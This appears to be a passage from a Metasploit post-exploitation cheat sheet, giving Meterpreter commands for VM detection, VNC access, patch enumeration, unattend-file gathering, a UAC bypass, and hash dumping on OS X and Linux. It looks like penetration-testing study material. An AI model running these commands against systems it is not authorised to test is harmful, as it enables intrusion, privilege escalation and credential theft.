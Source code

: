 target:**
```txt
run getcountermeasure -h
```
**Identify whether the compromised system is a virtual machine:**
```bash
run checkvm
```
**Get a remote GUI (VNC) on the target machine:**
```bash
run vnc
```
**Version exploits**
```txt
post/windows/gather/enum_patches_    
post/multi/recon/local_exploit_suggester_
```
**Unattended files**
```txt
post/windows/gather/enum_unattend
```
**Bypass User Access Control (UAC):**
```bash
run post/windows/escalate/bypassuac
```
**Dump Hashes on an OS X system:**
```bash
run post/osx/gather/hashdump
```
**Dump Hashes on a Linux system:**
```bash
run post/linux/gather/hashdump
```

# Further learning
- [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)